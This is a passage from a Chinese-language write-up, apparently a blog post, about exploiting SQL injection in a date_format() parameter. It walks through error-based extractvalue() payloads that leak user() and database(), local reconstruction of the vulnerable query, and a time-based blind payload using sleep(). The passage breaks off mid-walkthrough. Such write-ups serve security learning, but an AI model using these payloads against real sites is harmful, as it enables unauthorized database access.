 于是我构造了  

```
2025-06-19 00:00:00') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但是没成功，后来又想到了date_format()是有两个参数的，于是又构造了  

```
2025-06-19 00:00:00','%Y-%m-%d %H:%M:%S') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但还是不对，直接本地调试一下吧  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqHSCte7ziaeBOFu1C28YdnkWtbqOcjUaWU0NqEibM788JxB31OicLgmEjg/640?wx_fmt=png&from=appmsg "")  
  
把完整的语句放进来，然后进行调试，删除不必要的东西。  
  

```
#SELECT COUNT(1) FROM ( SELECT ss FROM patrol_task AS t JOIN sys_user AS u WHERE date_format ( t.start_time,'%Y-%m-%d %H:%M:%S') >= date_format('2025-06-11 00:00:0011111111111','%Y-%m-%d %H:%M:%S') and extractvalue(0x0a,concat(0x0a,database())))TOTAL# AND date_format (t.end_time,'%Y-%m-%d %H:%M:%S') <= date_format('2025-07-21 23:59:59','%Y-%m-%d %H:%M:%S') ORDER BY t.create_date DESC ) TOTAL
```

  
  
最后可以精简到差不多这样，后来经过本地调试之后，发现存在一个问题  
  

```
SELECT COUNT(1) FROM ( select username FROM admin AS t JOIN news AS u WHERE 1=1 and extractvalue(0x0a,concat(0x0a,database())))TOTAL#
```

  
  
这样是可以报错出结果的：  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpquiaib9yqgwPC3j5XcuJtsX0rkatWH0SINBqIhQSJEicTcoCg19P8v4OXA/640?wx_fmt=png&from=appmsg "")  
  
也就是说，按理说我闭合后拼接  

```
and extractvalue(0x0a,concat(0x0a,database())))total#
```

  
  
是可以爆出内容的  
  
但是网站就是无法报错，然后观察网站报错信息，发现并不是数据库的那种报错，感觉是网站框架，自定义的报错，可能压根就不会返回报错信息，于是我们尝试使用时间盲注  
  
正常来说我们闭合之后会拼接
```
if(ascii(substr(user(),1,1))>1,sleep(6),0)
```

  
  
我们继续在本地调试：  
  